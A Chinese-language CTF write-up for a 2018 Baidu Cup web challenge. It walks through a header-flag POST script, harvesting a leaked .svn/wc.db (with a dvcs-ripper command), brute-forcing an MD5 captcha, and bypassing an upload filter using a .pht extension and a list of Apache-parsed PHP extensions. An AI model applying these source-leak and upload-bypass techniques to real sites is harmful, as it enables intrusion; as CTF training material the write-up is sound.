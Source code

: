 ```yaml
---
title: Upload--出题人套路
date: 2018-03-21 00:00:01
categories:
- CTF/Web
tags: 百度杯总决赛 .svn泄露 Apache解析漏洞
--- 
```


跟紧出题人套路，各种写死的逻辑

## HEAD

```HTTP
HTTP/1.1 200 OK
Server: nginx/1.10.2
Date: Thu, 22 Mar 2018 03:30:48 GMT
Content-Type: text/html
Content-Length: 87
Connection: keep-alive
X-Powered-By: PHP/5.5.9-1ubuntu4.19
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
flag: ZmxhZ19pc19oZXJlOiBOekUyTkRjMA==
Vary: Accept-Encoding

</br>Hi,CTFer!u should be a fast man:)<!-- Please post the ichunqiu what you find -->
```

发现flag字段，每次都不一样，base64解码后`flag_is_here: NzE2NDc0`，猜测是把每次的flag字段的值解码后，POST给index.php，参数名为ichunqiu，脚本如下：

```python

import base64,requests

def main():
    url='http://1f7938fad6ad47efa12b0f1ded9a8c089f3fea424ec84a20.game.ichunqiu.com/'
    a = requests.session()
    b = a.get(url)
    key1 = b.headers["flag"]
    c = base64.b64decode(key1)
    d = str(c).split(':')
    key = base64.b64decode(d[1])
    body = {"ichunqiu":key}
    f = a.post(url,data=body)
    print f.text

if __name__ == '__main__':
    main()
```

得到下一步提示，Path:3712901a08bb58557943ca31f3487b7d ，访问3712901a08bb58557943ca31f3487b7d/重定向到action.php?action=login，测试文件包含无果，然后扫描目录发现是.svn泄露

## .svn泄露

本题是直接访问：3712901a08bb58557943ca31f3487b7d/.svn/wc.db拿到提示

```
OK!
Congratulations!
My username is md5(HEL1OW10rDEvery0n3)
:)

```

算出：8638d5263ab0d3face193725c23ce095

### .svn目录结构

举例.svn目录如下：

```bash
➜  Desktop tree .svn -F   
.svn
├── entries
├── format
├── pristine/
├── tmp/
└── wc.db
```

### svn信息利用原理

参考：[svn，git信息泄漏利用原理及现状](http://blog.51cto.com/3502990/1680123)

- svn<=1.6

这里面就有.svn/entries，这个文件包含着该基础目录下所有的文件和目录，直接递推查找就行

- svn>1.6

svn在1.6之后引入了wc.db来管理文件，该文件位于.svn/wc.db。普通文件位置：somedomain/.svn/pristine/"XX"/"CHECKSUM".svn-base,CHECKSUM是文件的sha1值，xx则是他的前两位。那这个CHECKSUM去哪找呢？就是我们刚才提到的wc.db，这是一个sqlite数据库。

可以看出重要的就是`wc.db`以及`entries`这两个文件

### 工具利用

[dvcs-ripper](https://github.com/kost/dvcs-ripper)

```bash
$ perl rip-svn.pl -v -u http://www.example.com/.svn/
```

如果无法利用工具就尝试手动访问`wc.db`以及`entries`这两个文件，也许会有收获

## 登录

用得到的md5（8638d5263ab0d3face193725c23ce095）进行登录，密码随便填（成功登录才知道，这里不对密码进行校验...），验证码MD5脚本如下：

```python
import hashlib
import itertools as its

words = "1234568790abcdefghijklmnopqrstuvwxyz"
r = its.product(words, repeat=5)

for i in r:
    a = "".join(i)
    md5 = hashlib.md5(a.encode('utf-8')).hexdigest()
    if(md5[0:6] == 'aa2cec'):
        print a
        break
```

等到下一步提示：

```
The 7815696ecbf1c96e6894b779456d330e.php:)Welcome 8638d5263ab0d3face193725c23ce095!
```

## 上传

试验如下上传参数，最终使用image/jpeg以及1.pht得到flag回显，应该是写死的逻辑。

```http

------WebKitFormBoundarytJvTA9B9Lb4TVKYS
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: text/php



------WebKitFormBoundarytJvTA9B9Lb4TVKYS
Content-Disposition: form-data; name="file"; filename="1.jpg"
Content-Type: image/jpeg



------WebKitFormBoundarytJvTA9B9Lb4TVKYS
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg



------WebKitFormBoundarytJvTA9B9Lb4TVKYS
Content-Disposition: form-data; name="file"; filename="1.pht"
Content-Type: image/jpeg
```

- [Content-Type对照表](http://tool.oschina.net/commons)
- Apache解析php后缀：php、phtml、pht、php3、php4、php5

参考： [文件解析漏洞总结-Apache](http://blog.csdn.net/wn314/article/details/77074477)
